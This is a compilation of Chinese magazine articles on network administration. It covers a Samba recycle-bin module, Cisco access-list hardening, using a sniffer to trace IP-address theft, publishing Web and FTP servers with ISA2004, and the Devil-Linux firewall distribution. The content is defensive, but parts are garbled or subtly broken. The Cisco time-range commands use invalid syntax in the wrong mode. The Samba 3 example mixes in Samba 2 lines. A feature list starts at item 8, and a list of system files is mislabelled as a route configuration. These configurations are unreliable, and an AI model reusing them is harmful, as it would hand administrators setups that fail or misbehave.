相信大家都有过这样的经历：网络上的一个文件不小心被你在网上邻居的共享中删除了，而大家都知道网上邻居的文件一删除就等于彻底删除，既不会出现在服务器上的回收站，也不会出现在本机的回收站中。想找回这个文件？很抱歉，只能用你的文件来换取一个教训。

那么有没有什么解决方案来实现网上邻居的回收站，帮我们避免这样的误操作呢？Windows 环境下我还未研究是否有此类方案，而 Linux 下为我们提供的 Samba 已经可以很完美地做到这一点了。

这里我们需要 Recycle VFS Module 的帮助，它可以让我们在 Samba 上实现回收站功能。有了它，网上邻居被删除的文件将被移动到一个指定目录下。如果没有在配置文件设置自动删除，则不会被自动删除，由用户自己清理回收站。本文分别列出 Samba 3 和 Samba 2 的 Samba-Recycle 配置实例。

#### SAMBA 2 的 Samba-Recycle 设置方法

- 1. 下载 VFS 模块  
  下载地址：http://www.ec-base.com/download/smbrecycle.tar.gz  
  下载解压后，使用 GNU autoconf script 和 Makefile 进行安装：

```bash
[becks@ec-base vfs] ./configure
[becks@ec-base vfs] make
```

- 2. 将相应的模块复制到任意路径，比如 `/usr/lib/Samba/vfs`

```bash
[becks@ec-base vfs] cp recycle/recycle.c /usr/lib/Samba/vfs
```

- 3. 建立和编辑 `recycle.conf`

```bash
[becks@ec-base vfs] cp recycle/recycle.conf /etc/Samba/
```

修改后的 `recycle.conf` 文件如下：

```conf
name = .recycle/%U
mode = KEEP_DIRECTORIES|NOVERSIONS|TOUCH
maxsize = 0
exclude = *.tmp|*.temp|*.o|*.obj|*$*
excludedir = /tmp|/temp|/cache
noversions = *.doc|*.xls|*.ppt
```

现在就其参数进行简单说明：

Options for recycle.conf：

**name**  
位于共享文件根目录回收站的名称，这里可以允许使用 `smb.conf` 的变量，比如本文使用的 `%U`。  
例：`name = .recycle/%U`

**mode**  
`KEEP_DIRECTORIES`：是否保留被删除文件的目录层次。  
`VERSIONS`：遇到同名文件时是否进行标号（Copy #1、Copy #2...）。  
`TOUCH`：移动到回收站时更新访问日期。  
Mode 示例：`mode = KEEP_DIRECTORIES|VERSIONS|TOUCH`

**maxsize**  
移动到回收站文件的最大体积，默认为 0。  
例：`maxsize = 0`

**exclude**  
设置不被移动到回收站的文件类型。  
例：`exclude = *.tmp|*.temp|*.obj|*$*|*.$$`

**excludedir**  
排除删除时不被移动到回收站的目录。  
例：`excludedir = /tmp|/temp|/trash`

**noversions**  
不创建相同文件名文件的副本。  
例：`noversions = *.doc|*.xls|*.ppt`

创建或者修改后保存退出即可。

- 4. 修改 `smb.conf` 以应用 Recycle Module，在 `smb.conf` 中添加以下两行：

```conf
vfs object = /usr/lib/Samba/vfs/recycle.so
vfs options = /etc/Samba/recycle.conf
```

```conf
[ec-base]
comment = ec-base website
path = /www/www.ec-base.com
read only = No
create mask = 0750
vfs object = /usr/lib/Samba/vfs/recycle.so
vfs options = /etc/Samba/recycle.conf
```

- 5. 为了让上面的设置生效，请重新启动服务器的 Samba 服务：

```bash
[becks@ec-base www.ec-base.com] service smb restart
```

OK，只需简单几个步骤，便可在 SAMBA v2 上实现 Samba-Recycle 功能。

#### SAMBA 3 的 Samba-Recycle 设置方法

看完 SAMBA 2 的 Samba-Recycle 设置方法，现在让我们再来看看 SAMBA 3 如何实现 Samba-Recycle。在 Samba 3 中我们只需要修改 `smb.conf` 便可以实现此功能（`/etc/Samba/smb.conf`）：

```conf
[ec-base]
comment = ec-base website
path = /www/www.ec-base.com
read only = No
create mask = 0750
vfs object = /usr/lib/Samba/vfs/recycle.so
vfs options = /etc/Samba/recycle.conf
browseable = yes
valid users = becks,@ec-base
vfs object = recycle
recycle: keeptree = yes
recycle: repository = ../Recycle/%u
recycle: exclude = *.tmp|*.temp|*.o|*.obj
recycle: versions = yes
```

设置完后重启 SMB 服务，这时候用户在 Samba（网上邻居）上删除的文件就会自动移至 `recycle: repository` 所指定的相对路径里。被移动到该目录后的文件权限等需要注意：目录需允许用户写入，否则会报错并导致文件被直接删除。由于回收站会占用磁盘空间，应定期清理 Samba-Recycle，并可通过 Samba 日志确认错误原因。

刘流：路由器有很多设置技巧，通过它们可以很方便地实现很多灵巧的功能，不过路由器对网络安全的作用是有限的。它并不能取代防火墙地位。对于中小型网络来说，可以充分利用路由器的数据过滤功能，省去防火墙；不过在大型网络中，单单利用路由器还是有些单薄，需要我们综合考虑。

适合读者：网络管理员、入侵爱好者

前置知识：TCP 协议、防火墙与路由器的基本使用

### 曲径通幽：突破整合的 Firewall 与 Router

文/图 风之扬

在大型网络中，防火墙和路由器是两个很常见的网络设备，不过在提供快捷和安全的同时，它们也给我们带来了一些不便之处。另一方面，很多为黑客所利用的工具或技巧，似乎只能用于某些显示“法力”的场合，而与正式的网络安全无关。其实，所谓的“黑与白”的界限已经越来越模糊了，黑即是白，白即是黑，关键在于我们怎么利用好手头的资源实现网络安全。

#### 璀璨叠合：Sniffer 与防火墙

经常听到不少网管朋友抱怨“IP 地址盗用太猖狂了，怎么管理？”。随着 Internet 的迅速发展，IP 地址的消耗非常快，申请足够 IP 地址愈发困难。作为一种稀缺资源，IP 地址盗用成为常见问题，尤其在按 IP 流量计费网络中，部分用户通过盗用地址将流量转嫁给他人。还有一些用户出于隐藏身份等目的盗用 IP，导致被盗 IP 设备无法正常使用并频繁出现地址冲突提示，给安全和应用带来隐患。

先看最普通的解决方案。一般情况下，为了找到盗用 IP 的机器，管理员需要登记所有机器网卡物理地址（MAC）。如果发现 IP 被盗用，可先 `Ping` 该地址，再用 `arp -a` 查看当前 ARP 解析表，获取对方网卡 MAC，随后对照网卡地址列表定位机器。

但出于安全考虑，很多大型单位网络使用了防火墙，导致单纯 `Ping` 可能失效。若盗用主机安装了防火墙软件并关闭端口，该主机会仿佛从网络消失，管理员难以用常规方法定位。此时就需要结合监听思路（如 Sniffer）与防火墙/路由策略来实现定位与治理。

对它进行分析的话，那自然就有可能找出特定用户的位置了。为什么不通过网络侦听软件 Sniffer Pro 来试试看呢？通过一番测试，我发现在 Sniffer Pro 的帮助下，网络管理员可以轻松解决此类安全问题，即使在机器安装了防火墙的情况下，管理员依然可以探测到它的存在并且查到它的网卡 MAC 地址，从而确定它的物理位置。

具体方法是：首先安装一个软件 Sniffer Pro，它是一个网络监测软件，可以监测到网络上面流动的数据。安装好后运行这个软件，启动探测功能，屏幕上会出现一个窗口，显示当前发现的机器列表和相应参数。其中有一项“DLC Station”指的就是机器网卡的 MAC 地址。如图 1 所示，找到被盗用的 IP 地址所对应网卡的 MAC 地址，我们就可以找到这台盗用 IP 地址的机器了。

类似的联动整合式功能还有很多，这就要我们平时多留心了。这个例子作为抛砖引玉之用。下面，我们从内外结合的角度来看看最平常的网络安全。

#### 内部挖潜：路由器网络安全

路由器我们应该再熟悉不过了，它直接影响着网络质量，在网络的稳定性和可靠性中扮演着重要角色。不过，有些问题依然很常见，如身份问题、路由器的网络操作系统漏洞问题、访问控制问题、路由协议问题、配置管理问题等。因此，需要通过有效的路由器配置来提高网络的安全性。

实战之前，我们先看看什么是访问控制列表。访问控制列表是应用在路由器接口的指令列表。通过设置类似于源地址、目的地址、端口号、协议等特定条件，告诉路由器哪些数据包可以接收、哪些数据包需要拒绝。在路由器的接口上配置访问控制列表后，就可以对入站接口、出站接口及通过路由器中继的数据包进行安全检测。对数据包有效限制可以减少被攻击风险，并可防止内部攻击、特洛伊木马和蠕虫病毒等蔓延。

（续上文）……在路由器接口应用访问控制列表后，可以对经过设备的数据包进行更细粒度的筛选与防护。

##### 1. 时间访问控制实战

掌握攻击的高发频率时段，合理配置基于时间的访问控制列表，可以更有效地保护内部网络，降低网络被攻击的几率。随着网络技术的发展和用户需求的变化，从 IOS 12.0 开始，Cisco 路由器新增了一种基于时间的访问控制。通过它，可以根据一天中不同时间或者根据一周中的不同日期（当然也可以二者结合起来）控制网络数据包的转发，给网管人员的日常维护带来很大便利。

Cisco 路由器中有两种常用访问控制列表（Access-List）：一种是标准访问列表，另一种是扩展访问列表。前者主要用于基于源和目标地址的数据包过滤，后者用于基于目标地址、源地址和网络协议及其端口号等的数据包过滤。

这种基于时间的访问控制列表，就是在原来的标准访问控制列表和扩展访问控制列表中加入有效时间范围来更合理有效地控制网络。先定义一个时间范围，然后在原来的各种访问控制列表基础上应用它。通过它，可以根据一天中的不同时间，或者根据一星期中的不同日期，或结合起来控制网络数据包的转发。

例如在一个网络中，路由器的以太网接口 E0 连接 203.227.166.118 网段，还有一个串口 S0 连入 Internet，可以通过基于时间的扩展访问控制列表来实现这一功能。

```bash
Router# config t
Router(config)# interface ethernet 0
Router(config-if)# ip access-group 101 in
Router(config-if)# time-range http
Router(config-if)# absolute start 1:00 1 may 2004 end 24:00 31 may 2005 periodic Saturday 6:00 to Sunday 24:00
Router(config-if)# ip access-list 101 permit tcp any any eq 80 http
```

上面的意思是：从 2004 年 5 月 1 日 1 时到 2005 年 5 月 31 日晚 24 时这段时间中，203.227.166.118 网段内的人员只有在周六早 6 时到周日晚 24 时才可以通过网络访问 Internet。Periodic 主要以星期为参数来定义时间范围，其参数可为 Monday、Tuesday、Wednesday、Thursday、Friday、Saturday、Sunday 的一个或多个组合，也可以是 Daily（每天）、Weekday（周一到周五）或者 Weekend（周末）。一个时间范围只能有一个 Absolute 语句，但是可以有几个 Periodic 语句。

现在假设我们的访问要求变了：Web 服务器 2（IP:203.227.166.118）上放着新年贺岁版公司主页，希望在 2004 年 12 月 31 日 24 点前，Internet 用户访问的是服务器 Web1（IP:203.227.166.119）上的主页内容，而不能访问 Web2 上的内容；即在此之后的新年里，访问的是新年版主页而不能访问旧版主页。下面，我们利用有时间控制的访问列表来自动实现这个功能，而不必让网管员在新年半夜时手动删除。列表内容如下：

```bash
Router# config t
Router(config)# interface serial 0
Router(config-if)# ip access-group web in
Router(config-if)# time-range changeweb absolute end 24:00 31 December 2004
Router(config-if)# ip access-list extended web
Router(config-ext-nacl)# permit tcp any host 203.227.166.119 eq 80 changeweb
Router(config-ext-nacl)# deny tcp any host 203.227.166.118 eq 80 changeweb
Router(config-ext-nacl)# permit tcp any host 203.227.166.118 eq 80
```

上述例子中，第一句是进入端口控制模式。第二句是应用名称访问列表 web，并且用在 Serial 0 的入口方向，即数据流入路由器的时候做协议控制分析。第三句定义一个时间范围名称 changeweb。第四句定义扩展名称访问列表 web。第五、六句表示在新年前，只能允许访问 Web1。第七句是允许所有到 Web2 的 Web 访问。表面看来第七句是在没有时间限制的情况下全部允许 Web2 的访问请求。实际上，路由器中访问控制列表每个表项的顺序很重要，它是从上到下执行的。在新年之前，第五、六句起作用，访问 Web2 的请求已经被禁止了，所以第七句没有用；而在新年之后第五、六句失效了，第七句才发挥作用，允许所有对 Web2 的访问请求。

看到这儿，大家能否感觉到这种方法的作用了？合理有效地利用基于时间的访问控制列表，可以更有效、更安全、更方便地保护我们的内部网络，这样你所在的网络才会更安全，网络管理员也会更轻松！

##### 2. FTP 协议与 TCP 协议控制实战

说到 FTP 协议，很多朋友可能在暗自流口水了，毕竟 FTP 在我们的网络生活中有着举足轻重的地位。虽然 FTP 使用的是 TCP 端口 21（ftp-control），但它也使用了 TCP 端口 20（ftp-data），所以 FTP 是一个特殊而复杂的多端口 TCP 操作。端口 21 用来传输 FTP 命令，端口 20 用来传输数据。客户端并不是在通过端口 21 建立 FTP 连接后简单地再建立一个到 FTP 服务器端口 20 的连接，相反是由 FTP 服务器从端口 20 建立与客户端的连接，它选择的客户端端口是大于 1023 的随机端口。

如果管理员希望访问被管理的 FTP 服务器，那么 FTP 服务器将会发出一个新的连接至 FTP 的客户机，虽然报文的目的端口号大于 1023，但是它的 ACK 或 RST 位不会被设置，这样会受到 `access-list 100 permit tcp any 192.168.10.0 0.0.0.255 gt 1023 established` 的阻拦。因此，为保证 FTP 的正常工作，需要在访问控制列表中增加一项：

```bash
access-list 100 permit tcp any eq 20 192.168.10.0 0.0.0.255 gt 1023
```

需要注意的是，路由器并不能过滤所有的数据，允许或拒绝报文的标准是基于报文自身所包含的信息，这些信息只限于报文头所包含的 OSI 参考模型第三层网络地址和第四层端口信息。因此，访问控制列表基本上不能使用第四层以上的信息过滤报文。

下面，我们转入大家最熟悉的一种协议 TCP。网络中提供的 TCP 协议应用主要有远程登录访问（telnet：TCP port 23）、发送接收电子邮件（smtp：TCP port 25；pop3：TCP port 110）、WWW（http：TCP port 80）等，那么路由器的访问控制列表可以定义如下：

```bash
access-list 100 permit tcp any 192.168.10.0 0.0.0.255 eq 23
access-list 100 permit tcp any 192.168.10.0 0.0.0.255 eq 25
access-list 100 permit tcp any 192.168.10.0 0.0.0.255 eq 110
access-list 100 permit tcp any 192.168.10.0 0.0.0.255 eq 80
access-list 100 permit tcp any any established
......
interface serial 0
ip access-group 100 in
```

具体可以分析如下：

- （1）上述参数中，在 Access-list 100 的末尾使用了关键字 `established`，这是一种判断报文是否为一个已知会话一部分的简单方法。它检测 TCP 报文中 ACK 或 RST 标志位的存在，如果 ACK 或 RST 位被设置，通常表示报文是一个正在进行的会话的一部分。由于 TCP 返回报文随机选择的端口号范围为 1024 至 65535，所以可以将含有关键字 `established` 的访问控制语句改为 `access-list 100 permit tcp any 192.168.10.0 0.0.0.255 gt 1023 established`，从而确保进入企业内部网络的报文目的端口号必须大于 1023。

- （2）在上面的参数中，建立访问控制列表后，使用命令 `show access-list 100` 检查每项 Access-list 后面括号中 TCP 报文的 Matched 数，根据 Matched 数由大到小的顺序重新排列访问控制列表每个 Access-list 的顺序，这样可以减少报文在访问控制列表中不必要的检测，减少特定报文查找访问控制列表的时间，降低路由器 CPU 的负担。

##### 3. ICMP 协议控制实战

大家对 ICMP 可能不太感冒，不要紧，Ping 这个命令应该不会陌生吧？ICMP 提供了网络服务和应用程序的大量信息，如 Ping 和 Traceroute（Windows 系统为 Tracert），网管员可以利用其协助网络管理工作。由于 ICMP 信息多数是为了响应其他程序而产生的，所以过滤 ICMP 比过滤 TCP、UDP 都更复杂。

要困难。要过滤 ICMP 信息，需要从接口的进出两个方向都进行报文过滤。不过我们也知道，黑客也可以使用 ICMP 来获取企业网络上的信息，因此网管是不太乐意将这些信息泄漏出来的。但是如果没有 ICMP，网络管理程序就不能正常工作，这是矛盾所在。陷入沉思，怎么办？

还是看看这个例子吧。现在，假设网管希望使用 Ping 和 Traceroute 两个命令检查所管理的网络设备，可以在路由器的配置中增加下列访问表项：

```bash
interface serial 0
ip access-group 100 in
ip access-group 101 out
access-list 100 permit icmp any 192.168.10.0 0.0.0.255 echo-reply
access-list 100 permit icmp any 192.168.10.0 0.0.0.255 packet-too-big
access-list 100 permit icmp any 192.168.10.0 0.0.0.255 ttl-exceeded
access-list 101 permit icmp 192.168.10.0 0.0.0.255 any echo-reply
access-list 101 permit icmp 192.168.10.0 0.0.0.255 any packet-too-big
access-list 101 permit ip 192.168.10.0 0.0.0.255 any


```

由于访问控制列表在最末隐含“deny all”，所以必须在访问控制列表 101 的最后一项加上“access-list 101 permit ip 192.168.10.0 0.0.0.255 any”，否则总部的计算机就无法访问分支机构的计算机。

实际使用中，我们要多发现、多实践，根据企业的网络状况，巧妙地配置企业网络资源。例如，我们还可以结合交换机、入侵检测系统、漏洞扫描软件、病毒防护软件等软硬件，轻松实现更高级别的网络安全。

适合读者：网络管理员  
前置知识：ISA2004 的安装和配置

### 用 ISA2004 配置软硬件 Web/FTP 服务器

文/图 刘晋

记得去年我给朋友们写了一篇名为《超前体验 ISA2004》的文章，不知诸位是否自己动手实验过了？如果你还没有实验过，那赶快去玩玩吧。因为是中文版的，所以在操作和配置上不是很难，而且有一定的实用性。如果你已经玩过了，那我们就可以开始这次新的课程了。在上一篇文章中只是介绍了 ISA 的安装和测试，这次我要给大家介绍一下 ISA2004 的功能和企业应用方案，实用性比较强，希望各位朋友在玩攻击的同时也能掌握防火墙的配置与使用，黑防提倡的攻防对立可是很有道理的！

> **刘流**：上篇文章中已经详细讲解过 ISA2004 的安装和配置实验环境的过程了，文中将不再做讲解。作者是在假设大家都已经安装好 ISA2004 并且配置好虚拟机的实验环境下进行讲解的，有不明白的朋友可以查看《黑客防线》2004 年 9 期杂志。

在这里你可以按它给的这 5 个步骤来设置你的 ISA 服务器，当然一般都是根据需要自己配置的，也就是说不在它的开始界面里面配置。

ISA2004 在安装完毕后有一个默认的防火墙规则，也就是默认安装好后你是不能进行网络访问的，这个早在 ISA2000 中就是这样的，也是默认的安全规则。当你建立一个规则之后，那个默认的规则就没有用了，原因就是防火墙的规则审核原理，如图 2 所示。

#### 基本功能模块

装好 ISA2004 后打开 ISA 服务器管理工具就能看见如图 1 所示的界面。
图1
图2

当然，除了默认规则外，在安装完毕后还有一些系统的策略规则，这些规则是隐藏的，你可以点击旁边的“显示系统策略规则”来进行查看。你也可以对系统规则进行编辑，但不能删除，如图3所示。
我们来看看管理器中的“配置网络”，当你选中此项时首先看见的是防火墙的模板，默认的是边缘防火墙，也是我们今天主要讲解的应用。你还可以看见其他的模板，这也就是 ISA2004 中新增加的功能：多网络。下面简单介绍一些各个模板的功能。

- 边缘防火墙：顾名思义，就是将 ISA 服务器设置作为网络边缘的防火墙，从而保护网络不会被他人访问，同时允许公司网络上的用户进行特定的访问，也就是网关防火墙了。
- 三向外围网络：就是指在一个 ISA 服务器上有 3 个网络适配器，一个是连接 Internet，一个连接 LAN，另一个可以连接外围网络。
- 前端防火墙：意思就是把 ISA 服务器部署在网络的边缘上做第一道防火墙，在它的后端还部署有另一种防火墙产品，ISA 服务器作为背靠背外围网络配置中的防御前线。
- 后端网络：基本同上，就是部署位置相反。
- 单一网络适配器：使用这种配置时 ISA 服务器通常作为缓存服务器，对 Internet 中的内容进行缓存，供公司网络中的客户端使用。也可以在单一适配器计算机上将 ISA 服务器部署为反向 Web 代理，并启用 Web 发布和 Outlook Web Access 发布方案。
#### 发布 Web 服务器

记得在上篇文章中提到了利用 ISA2004 发布 Web 服务器，这次就详细介绍一下如何使用 ISA2004 进行服务器发布。它的工作流程是这样的：
从图上就可以看出，ISA 防火墙就是一个转发请求的代理，它接受客户端的 HTTP 请求，并将它转发到 Web 服务器上，服务器响应后又由 ISA 转发给客户端，这个过程对于用户来说是透明的。

我们打开 ISA 服务器管理器，在防火墙策略里先建立一个名为 Internet 的规则，规则内容就是允许本地和内部访问 Internet，规则源就是内部和本地主机，规则目标就是外部，协议是所有的出站协议都允许。有这样的规则就可以使本地主机和内部网络访问外网了（关于规则名字随便起了，这里用 Internet 是为了方便识别），如图5所示。
下面我们来建立 Web 发布规则，在右边的“防火墙策略任务”里点击“发布一个 Web 服务器”就会出现一个发布向导，如图6所示。
规则名我们用 Web-2，并点下一步。在“计算机名称或 IP 地址”里填写要发布的 Web 服务器的内部地址，下面有一个转发主机头的选项，不用管它，一会我讲一下这个是干什么的。“路径”上填写 Web 目录的路径，如果发布内容包括该目录下的其他子目录的话，一定要在路径最后加上“*”，否则 ISA 是不会转发子目录内容的。我用虚拟机装了 Windows 2000 Server + IIS5，在 IIS 上装了 WebEasyMail 邮件系统，IIS 上的虚目录是 Webmail，所以我填写的路径就是“webmail/*”，如图7、图8所示。
图7
图8

填好后就继续下一步，这一步就好懂多了吧？填上公司的域名和路径，如图9所示。
图9

为了方便测试，我在虚拟机里安装了 http://www.3322.org 的动态域名客户端做域名解析，所以这里的域名是我随便写的。

填写好后就继续下一步，这时会出现设置 Web 侦听器，名字还是用 Web-2，IP 地址选外部，其他就没有什么要求了。确定后就看见一个设置 HTTP 端口和 SSL 的设置，如果你有 SSL 的需要也可以设置，最后就是应用该规则了，这样一个 Web 发布规则就建立好了，如图10、图11所示。
图10
图11

那么在刚才配置中什么是转发主机头呢？默认情况下，当 ISA 服务器接收传入的 Web 请求时，它确定是否允许此请求，然后按 Web 发布规则中的定义将此请求路由到 Web 服务器上的适当位置。ISA 服务器未将包含在客户端请求中的主机头（例如 Host: example.microsoft.com）传递到发布的服务器。相反，ISA 服务器使用 Web 发布规则中指定的服务器名称替换请求中的原始主机头。因此，路由到特定 Web 服务器的所有请求发送到该 Web 服务器上的同一（默认）网站。可以配置 ISA 服务器以传递原始主机头信息，因此使客户端请求可以路由到 Web 服务器上的特定站点。例如，当在同一 Web 服务器上发布多个网站时，对于要路由到目标网站的请求，就需要原始主机头。

好了，下面就该进行测试了。连接好主机网络后，在虚拟机中把动态域名解析软件打开，将我们输入的那个域名解析到我们的主机外网 IP 上，然后启动虚拟机系统中的 IIS 和 WebEasyMail 服务，我们在主机里输入 http://debug110.3322.org/webmail/ 时就可以看见我们虚拟机上的 WebMail 系统了，如图12所示。

大家可以自己试着玩一玩，如果按照上面的配置出现无法访问的话先不要着急，你可以在 ISA 服务器管理器中双击该规则进行调整，一般情况只要在“从...”里将“任何地址”修改为“外部”就可以了，如图13所示。

至此一个内部的 Web 服务器就算发布成功了，我让我的一些朋友们都进行了访问测试，没有出现任何问题。
图12
图15

#### 发布 FTP 服务器

接下来说说关于 FTP 服务器的发布。ISA2004 不但支持标准的 21 号端口发布 FTP 服务，同时也支持非标准端口的 FTP 发布，也就是说你可以修改 FTP 发布的端口。这些在以前的 ISA2000 下是非常麻烦的一件事，但在 ISA2004 下就是非常方便的。话不多说，往下看吧。
图13

打开 ISA 的管理器来到防火墙策略，在后边的防火墙策略任务里可以点击“创建新的服务器发布规则”出现设置向导，如图14所示。
图14

发布 FTP 的设置向导很简单，关键来看一下如何修改发布的端口，如图15所示。

看见这里的端口了吧？就是在这里修改的，进去看看吧，如图16所示。这里有 3 个端口设置选项：防火墙端口、发布的服务器端口、源端口。先不管源端口了，防火墙端口就是指要将内网的 FTP 服务器映射到 ISA 服务器的那个端口。比如说内网 FTP 服务器使用的是 21 号端口，那它通过 ISA 发布时将防火墙端口设置为 99 号端口，那么外网进行访问时就要使用 99 号端口来连接了。发布的服务器端口就是指内网那台 FTP 服务器上的服务端口。

如果 FTP 服务器的 IIS 上已经修改为 99 了，那在这里也要修改为 99，否则不能连接。同样也可以这样设置：FTP 服务器的 IIS 上用 99 号端口，在防火墙端口上设置为 21 号端口，外网一样可以使用 21 号端口连接。其实这里的 ISA 就等于是做了一个端口的映射。
图16

详细演示就不做了，大家可以试试。如图17所示，就是我发布的标准端口的 FTP 服务器。
图17

通过上面对 Web 和 FTP 服务器发布的详细讲解，相信大家对 ISA2004 也有更深的认识了。只要能融会贯通，你还可以自己试试邮件服务器的发布，这里的邮件服务器发布就是发布 OWA，不是很难，有兴趣自己玩玩吧。ISA2004 是一个很强大的代理防火墙软件，它的功能远不止这些，用它可以为企业架设 VPN，发布位于公共 DMZ 网段的服务器，支持远程管理，自带报表功能，和 SQL2000 结合有强大的日志记录功能。希望大家通过我的这两篇文章对专业防火墙有个认识，也能熟练地操作。如果有时间有机会的话，我还会给大家带来更新的应用文章。

刘流：Devil-Linux（恶魔 Linux）是一种完全由分布在世界各地的志愿者开发的操作系统，其最大的特点就是可以直接从 CD-ROM 或 USB 存储设备上启动整个操作系统。而系统的配置信息又可以存储在软盘和 USB 存储介质当中，而且 Devil-Linux 的安装和配置相当简单，一般用户都能通过简单的操作配置出专业的 Linux 操作系统服务来。最初人们希望这款简单实用的操作系统能用在防火墙/路由器等产品当中，但后来 Devil-Linux 被发现同样可以应用在一般的服务器中，利用 Devil-Linux 打造廉价、高效、安全的小型办公网成为 SOHO 一族最为理想的解决方案。

- 适合读者：SOHO 一族、Linux 爱好者、网络管理员
- 前置知识：Linux 基本操作
### 与魔鬼共舞

#### 利用 Devil-Linux 打造安全 SOHO 服务器

文/图 梁振江

对于 SOHO 一族来说，该采取怎样的措施来确保自己的小型办公网、服务器的安全无忧呢？采用免费的 Linux 操作系统来构造一套完整的办公网络无疑是一个很好的选择。可是，没有任何一个系统是绝对安全的，任何接入互联网的系统和服务器都会受到探测并可能遭到入侵。正是因为 Linux 操作系统被公认为是比较安全、运行比较稳定的操作系统，所以许多 IT Administrators 安装 Linux 后，由于担心人力或技术能力有限的原因，并没有能很好地保护它们。

SOHO 一族正是面对着这样一个矛盾：即需要高效稳定安全的 Linux 操作系统构造 SOHO 办公网络，对内对外提供各种服务，但是却又无力去配置和管理好安装有 Linux 操作系统的服务器。我们今天就来帮大家解决这个问题！

#### 综合特点

Devil-Linux 最初的设计用途是作为专业的 Linux 防火墙/路由，Devil-Linux 官方网站也宣称 Devil-Linux 是市场上最好的 Linux 防火墙。实际上，Devil-Linux 目前的使用者大多数为 SOHO 一族和 IT Administrators。它具有非常多值得关注的优点：

- Devil-Linux 完全由光盘启动，系统制作在只读介质中，安全性高。
- 也可由 USB 移动存储设备启动，适用于无 CD-ROM 环境。
- 配置文件可保存在软盘或 USB 介质中，便于备份与多配置切换。
- 对硬盘依赖小，可用于 Mail/文件服务器等场景。
- 对硬件要求低，从 486 到高端服务器都可使用，适合旧机改造。
- 支持 IPTables/Netfilter，可进行强大的防火墙与流量控制。
- 支持多用户配置，可按需求定制并切换配置。

Devil-Linux 也能通过自身的 Logical Volume Manager（逻辑卷标管理器）来对磁盘进行管理，无论硬盘容量大小都可分配管理。还提供软件 RAID 功能，可把多块独立硬盘组合成逻辑硬盘组，提升存储性能并提供数据冗余，增强数据安全性。

| 项目 | 要求 |
|---|---|
| 处理器 | PC 486 DX2/66-class 或更高 |
| 内存 | 32MB RAM |
| 其他 | 可启动 ATAPI/SCSI CD-ROM drive 或 USB Device、1.44M 软驱或 USB 设备；任何网络接口；10/100Mbit/s 网卡；外置 ISDN-Modem |

> Netfilter/iptables 应用程序被认为是 Linux 中实现包过滤功能的第 4 代应用程序。Netfilter/iptables 包含在 2.4 以后的内核中，它可以实现防火墙、NAT（网络地址翻译）和数据包分割等功能。Netfilter 工作在内核内部，而 iptables 是让用户定义规则集的表结构。Netfilter/iptables 从 ipchains 和 ipwadm 演化而来，功能更加强大。

虽然在 **Devil-Linux** 中可以实现不同功能配置，例如可配置为 Linux 防火墙，或配置为 Web、E-mail 服务器；这些配置分开存放，也能保证系统安全，这是与一般 Linux 版本不同之处。

- **8.** Devil-Linux 不支持图形化桌面。一般发行版中的 X-Server 等图形桌面在 Devil-Linux 中不提供，原因包括安全性、效率以及其主要面向服务配置；通过 VI 等编辑工具即可完成参数修改，无需占用空间巨大的图形化桌面。
- **9.** Devil-Linux 内置 GUI 防火墙编译器。该功能使管理员可直观、方便地编写防火墙规则，减少手工编写规则的工作量。
- **10.** Devil-Linux 对系统及应用程序二进制编译进行了安全保护处理，提升整体安全性。多数二进制编译采用 GCC Stack Smashing Protector 等技术，增强了对缓冲区溢出攻击的抵抗能力。
- **11.** Devil-Linux 通过 GRSecurity 改进并提升了内核安全性。对于 Linux 操作系统而言，内核决定了整个系统安全性。

> **ACL（Access Control List，访问控制列表）与 GRSecurity 说明：** GRSecurity 作为常见且成熟的 Linux ACL/内核安全补丁之一，可让管理员赋予进程尽可能小权限，从而降低攻击者获取高权限后的破坏范围。

Devil-Linux 利用 GRSecurity 在内核安全性与稳定性方面进行了多项改进；在进程访问控制、资源限制、IP 访问控制、阻止进程暴力攻击限制、学习模式与可读配置等方面均有提升。

- **12.** Devil-Linux 为进一步提高系统安全性，对 `chroot`“监牢”机制进行了改进，使管理员使用更简单。

> **chroot 机制说明：** 通过 `chroot` 可改变进程可见根目录（如 Apache 安装目录等），将进程活动限制在指定子目录树中；即使进程被攻击，也可减少对整个文件系统的影响。  
> 当 Apache 子进程被限制在 `/usr/local/httpd/` 后，其可读取文件范围被约束在该目录及其子目录下；创建 chroot“监牢”的作用即为将进程权限限制在文件系统某一子树内。

- **13.** Devil-Linux 除了可将计算机作为专业防火墙/路由器外，还提供了多种服务，基本可满足 SOHO 一族和中小型网站业务需求。

- Proxy Server
- DNS Server
- Mail Server with TLS support and Spam and Virus filtering
- HTTP Server
- FTP Server
- File Server
- VPNs with X.509 support
- DHCP Server
- NTP Server
- IDS Node

#### Devil-Linux 的安装和配置

Devil-Linux 安装较简单。在装有 IDE CD-ROM 的计算机中按 3 个步骤可快速启动系统运行。

- **步骤1：** 下载 Devil-Linux 光盘镜像文件；解包并阅读 `doc/CHANGES` 获取安装与配置说明。
- **步骤2：** 在临时目录找到 `bootcd.iso`，刻录成光盘（也可在 Windows 下刻录）。
- **步骤3：** 用 Devil-Linux 光盘启动计算机进行安装。
图2 如果你使用的是旧的配置文件，Devil-Linux 会提示你更新或移植新的配置。

图3 简单选择需要保留的文件。

图4 熟悉的启动和登录界面，需要输入用户名和密码。

图5 Devil-Linux 主菜单，用户可以在这里对 Devil-Linux 所有服务进行配置。

#### Devil-Linux 的启航配置和安全性配置

和大多数 Linux 版本一样，Devil-Linux 在首次登录后，系统管理员必须对 Devil-Linux 进行一个常规（General Configuration）的配置。在这个初始化配置中，通常包括如下内容：时钟时区配置、硬件参数配置、网络接口、网络参数配置、路由参数配置等。这些配置可以通过图5的主菜单配置来实现，也可以手动修改相应的配置文件实现。这些配置的修改和一般 Linux 版本无异。如果用户想在旧版本中升级新版本的 Devil-Linux（当前最新的版本为 V1.2.2），在 Devil-Linux 的安装使用文档中明确建议用户修改和升级如下文件来保证这个系统的兼容性和安全。

还需要注意的是，由于 Devil-Linux 是基于光盘运行的操作系统，所以任何修改的配置文件需要写入软盘或 USB 存储介质中，使用 Save-Config 命令可以实现配置文件在软盘的写入。修改和写入配置文件无需重新启动 Devil-Linux。

下面举例说明在 Devil-Linux 配置路由的方法。路由参数可以在网络接口配置文件中修改，格式为 `GATEWAY:NET/MASK`，例如 `ROUTE="10.90.1.253:192.168.2.0/255.255.255.0"`。具体的路由配置清单如下：

- /etc/passwd
- /etc/shadow
- /etc/ipsec.*
- /etc/sshd/*
- /etc/sysconfig/nic/ifcfg-*
- /etc/init.d/rc.firewall

```bash
### ROUTE="GATEWAY:NET/MASK"
#ROUTE="10.90.1.253:192.168.2.0/255.255.255.0"
### if you don't have a gateway use:
#ROUTE=":192.168.2.0/255.255.255.0"
